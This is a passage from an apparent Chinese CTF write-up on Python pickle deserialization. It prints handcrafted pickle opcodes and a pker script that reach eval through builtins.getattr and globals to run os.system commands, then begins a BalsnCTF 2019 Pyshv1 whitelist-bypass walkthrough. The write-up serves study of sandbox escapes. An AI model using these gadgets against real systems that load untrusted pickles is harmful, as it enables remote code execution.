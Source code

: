 `<built-in function eval>`现在已经拿到了eval对象，再执行代码

```python
cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRS'eval'
tR(S'__import__("os").system("ls")'
tR.
```

![image-20210809172045469](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809172045469.png)

成功执行代码（注意运行时不仅需要引入pickle 也要引入builtins才可以！）

————用pker

```python
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
__builtins__ = dict_get(builtins, '__builtins__')
eval = getattr(__builtins__, 'eval')
eval('__import__("os").system("whoami")')
return
# b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
```

参考：[wp1](https://www.redmango.top/article/64)  |  [Code-Breaking中的两个Python沙箱](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html)  |  [Python 格式化字符串漏洞（Django为例）](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)
{{% /spoiler %}}

### -->>仅可以引入`sys`模块&名字中不带`.`点号

{{% spoiler "栗子5 - [BalsnCTF 2019] Pyshv1" %}}
题目环境->https://github.com/sasdf/ctf/tree/master/tasks/2019/BalsnCTF/misc/pyshv1

审计一下源码，先看一下肯定会不secure的securePickle.oy

![image-20210811212055295](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210811212055295.png)

重写`find_class()`，被调用时可以灵活添加白名单；再看看server.py
